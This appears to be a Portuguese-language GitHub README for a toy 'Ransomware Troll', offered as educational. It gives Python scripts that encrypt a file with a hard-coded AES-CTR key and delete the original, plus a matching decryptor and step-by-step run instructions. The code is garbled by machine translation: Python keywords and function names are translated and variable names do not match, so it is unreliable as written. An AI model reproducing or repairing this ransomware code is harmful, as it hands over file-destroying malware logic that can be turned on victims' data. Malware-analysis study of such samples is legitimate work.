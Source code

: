 # Ransomware
Entendendo um Ransomware na Prática com Python

# Pré-requisitos
Antes de executar os códigos de descrição e criptografia, é necessário ter o Python instalado em seu sistema. Além disso, você deve ter uma biblioteca pyaesinstalada. Você pode conectá-lo usando o comandopip install pyaes .

# Código de Descripción
Aqui está o código base que pode ser usado para descrever arquivos criptografados pelo Ransomware Troll:

```pitão
importar sistema operacional
importar pyaes

#Nome do arquivo criptografado
file_name =  " arquivo.txt.ransomwaretroll "

# Abre o arquivo criptografado em modo de leitura binária
arquivo  =  aberto (nome_do_arquivo, " rb " )
file_data =  arquivo .read()
arquivo .close()

# Chave para descripção
chave =  b " testeransomwares "
aes = pyaes.AESModeOfOperationCTR(chave)

# Realizar a descritografia
decrypt_data = aes.decrypt(dados_do_arquivo)

# Removendo o arquivo criptografado
os.remove(nome_do_arquivo)

# Crie o arquivo descrito
new_file =  " arquivo.txt "
novo_arquivo =  aberto ( f ' { novo_arquivo } ' , " wb " )
novo_arquivo.escrever(descriptografar_dados)
novo_arquivo.fechar()
```


-Se de substituir "arquivo.txt.ransomwaretroll"pelo nome do arquivo criptografado real que você deseja descrever e"testeransomwares" pela chave correta de descritiva fornecida pelo atacante.

# Código de Criptografia
Aqui está o código base que pode ser usado para criptografar arquivos usando o Ransomware Troll:

``` pitão
importar sistema operacional
importar pyaes

# Nome do arquivo a ser criptografado
nome_do_arquivo =  " arquivo.txt "

# Abre o arquivo em modo de leitura binária
arquivo  =  aberto (nome_do_arquivo, " rb " )
file_data =  arquivo .read()
arquivo .close()

# Remover o arquivo original
os.remove(nome_do_arquivo)

# Chave para criptografia
chave =  b " testeransomwares "
aes = pyaes.AESModeOfOperationCTR(chave)

# Realizar a criptografia
crypto_data = aes.encrypt(dados_do_arquivo)

#Nome do novo arquivo criptografado
novo_arquivo = nome_do_arquivo +  " .ransomwaretroll "
novo_arquivo =  aberto ( f ' { novo_arquivo } ' , ' wb ' )
novo_arquivo.escrever(dados_criptográficos)
novo_arquivo.fechar()
```

-Se de substituir "arquivo.txt"pelo nome do arquivo que você deseja criptografar e"testeransomwares" pela chave correta de criptografia. O código criptografado será o arquivo selecionado e salvará uma versão criptografada com a extensão `.ransom


## Instruções

Para descrever um arquivo afetado pelo Ransomware Troll, siga estas etapas:

1 . Verifique se você tem o Python instalado em seu sistema.

2 . Instale a biblioteca ` pyaes` usando o comando ` pip install pyaes` .

3 . Copie o código de descrição fornecido acima e cole-o em um novo arquivo Python.

4 . Abra o arquivo Python em um editor de texto e modifique a linha ` file_name = "arquivo.txt.ransomwaretroll" ` para corresponder ao nome do arquivo criptografado que você deseja descrever.

5 . Verifique se a chave correta de descritiva está definida na linha ` key = b"testeransomwares" ` . Se o fornecedor tiver fornecido uma chave diferente, atualize-a aqui.

6 . Salve o arquivo Python com um nome adequado, por exemplo, ` descriptografar.py ` .

7 . Abra o terminal ou prompt de comando e navegue até o diretório onde você salvou o arquivo Python.

8 . Execute o arquivo Python escrevendo o seguinte comando: ` python descriptografar.py ` .

9 . O código descreverá o arquivo e removerá o arquivo criptografado original.

10 . Verifique se o arquivo descrito foi criado corretamente.

Para criptografar um arquivo usando o Ransomware Troll, siga as mesmas etapas de 1 a 7 acima, mas substitua o código de descrição pelo código de criptografia fornecido. Certifique-se de fornecer o nome do arquivo que você deseja criptografar e a chave correta de criptografia. O arquivo criptografado será salvo com a extensão ` .ransomwaretroll ` .

** Nota: ** Vale destacar que esta solução foi fornecida exclusivamente para fins educacionais e de pesquisa. Não incentivamos o uso de ransomware ou qualquer atividade ilegal. A descriptografia de arquivos criptografados por ransomware só é possível com a chave adequada. Recomendamos que, em caso de ataque, você busque a ajuda de profissionais especializados em segurança cibernética.
